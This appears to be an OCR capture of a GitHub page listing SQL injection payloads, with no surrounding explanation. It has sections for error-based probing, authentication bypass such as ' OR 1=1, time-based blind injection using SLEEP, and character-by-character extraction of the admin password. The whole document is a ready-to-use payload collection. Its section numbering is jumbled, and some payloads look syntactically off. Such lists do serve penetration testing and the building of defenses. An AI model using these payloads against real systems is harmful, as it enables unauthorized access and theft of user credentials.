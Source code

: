 
10. Advanced Error Messages

      
```
1. ' AND 1=CONVERT(int, (SELECT @@version)) -- 
2. ' AND 1=CONVERT(int, (SELECT 1/0)) -- 
3. ' AND (SELECT COUNT(*) FROM users)=0; -- 
4. ' AND (SELECT (SELECT 1 UNION SELECT NULL)) IS NULL; -- 
5. ' AND (SELECT id FROM users WHERE users.username='admin') IS NOT NULL; -- 
6. ' AND (SELECT VERSION()) = '5.6.40'; -- 
7. ' AND (SELECT @@global.sql_mode) IS NOT NULL; -- 
8. ' AND (SELECT * FROM non_existing_table) IS NULL; -- 
9. ' AND (SELECT COUNT(*) FROM users WHERE username NOT LIKE 'admin') > 0; -- 
10. ' AND (SELECT 1 WHERE (SELECT * FROM information_schema.tables) IS NOT NULL); -- 
```
.
1. Bypassing Authentication

      
```
1. ' OR 1=1; -- 
2. ' OR 'a'='a'; -- 
3. ' OR username='admin' AND password LIKE '%'; -- 
4. ' OR (SELECT COUNT(*) FROM users WHERE username='admin' AND password LIKE '%') > 0; -- 
5. ' OR (SELECT CASE WHEN (1=1) THEN '1' ELSE '0' END) = '1'; -- 
6. ' UNION SELECT username, password FROM users WHERE '1'='1'; -- 
7. ' AND (SELECT COUNT(*) FROM users WHERE username='admin')>0; -- 
8. ' UNION SELECT null, null FROM dual WHERE 1=1; -- 
9. ' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='anything'); -- 
10. ' OR (SELECT LENGTH(password) FROM users WHERE username='admin') > 0; -- 
```
    

2. Time-Based Blind Injection (Delays)
```
      

1. ' AND IF(1=1, SLEEP(5), 0) -- 
2. ' AND IF(1=0, SLEEP(5), 0) -- 
3. ' AND (SELECT CASE WHEN (1=1) THEN SLEEP(5) ELSE NULL END) IS NOT NULL; -- 
4. ' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users) > 0 THEN SLEEP(5) ELSE NULL END) IS NOT NULL; -- 
5. ' AND (SELECT (SELECT COUNT(*) FROM users) FROM DUAL WHERE (SELECT 1) IS NOT NULL) = 1; -- 
6. ' AND (SELECT SLEEP(10)) IS NULL; -- 
7. ' AND 1=(SELECT COUNT(*) FROM orders WHERE id = (SELECT MAX(id) FROM orders)) AND SLEEP(5); -- 
8. ' AND IF((SELECT COUNT(*) FROM users WHERE username='admin') > 0, SLEEP(5), 0); -- 
9. ' AND (SELECT SLEEP(10) FROM users) IS NULL; -- 
10. ' AND 1=IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), 0); -- 
```

3. Character Manipulation
```
1. ' LIKE 'a%' -- 
2. ' OR (SELECT ASCII(SUBSTRING(password, 1, 1)) FROM users LIMIT 1) = 97; -- 
3. ' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a'; -- 
4. ' AND (SELECT LENGTH(password) FROM users WHERE username='admin') = 8; -- 
5. ' AND (SELECT CONCAT(username, ':', password) FROM users WHERE username='admin') LIKE '%'; -- 
6. ' OR (SELECT CHAR_LENGTH(username) FROM users WHERE username='admin') = 5; -- 
7. ' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username='admin') = 'a'; -- 
8. ' OR (SELECT LEFT(password, 1) FROM users WHERE username='admin') = 'p'; -- 
9. ' OR (SELECT RIGHT(username, 1) FROM users WHERE username='admin') = 'n'; -- 
10. ' OR (SELECT CONCAT(SUBSTRING(username, 1, 1), SUBSTRING(password, 1, 1)) FROM users WHERE username='admin') = 'ad'; -- 
```
    